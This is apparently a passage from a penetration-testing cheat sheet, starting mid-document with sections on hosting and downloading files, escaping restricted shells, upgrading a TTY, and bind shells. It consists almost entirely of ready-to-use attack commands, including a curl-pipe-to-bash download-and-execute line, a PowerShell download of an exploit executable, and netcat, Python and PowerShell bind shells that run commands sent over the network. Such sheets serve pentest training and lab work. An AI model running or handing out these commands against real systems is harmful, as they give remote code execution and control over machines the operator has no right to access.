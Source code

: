 - Host Files

```
$ nc -nlvp 443 < file.txt
$ python -m SimpleHTTPServer 80
$ python3 -m http.server 8000
$ smbserver.py a /usr/share/windows-binaries/
```

- Download Files

```
$ nc -nv <IP address> 443 > file.txt
$ wget http://<IP address>:8000/exploit.sh
$ curl http://<IP address>:8000/exploit.sh -o exploit.sh
$ curl http://<IP address>:8000/exploit.sh | bash
$ scp exploit.sh <user>@<IP address>:/tmp/exploit.sh
C:\> copy \\<IP address>\a\whoami.exe C:\Windows\Temp\whoami.exe
C:\> powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<IP address>/exploit.exe','C:\Users\Offsec\Desktop\new-exploit.exe')"
```

#8. - Restricted Shell Escapes
-----------------------------------------

- Shell Escapes

```
$ bash -i
$ echo os.system('/bin/bash')
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ script /dev/null -c bash
```

- Tab Auto Completion

```
$ CTRL+Z
$ stty raw -echo
$ fg
$ reset
$ export TERM=xterm-256color
$ stty rows 67 columns 318
```

#9. - Shells
-----------------------------------------

- Bind Shells

```
$ nc -nlvp <port> -e /bin/bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
$ python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("<IP address>",<port>));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
$ powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```
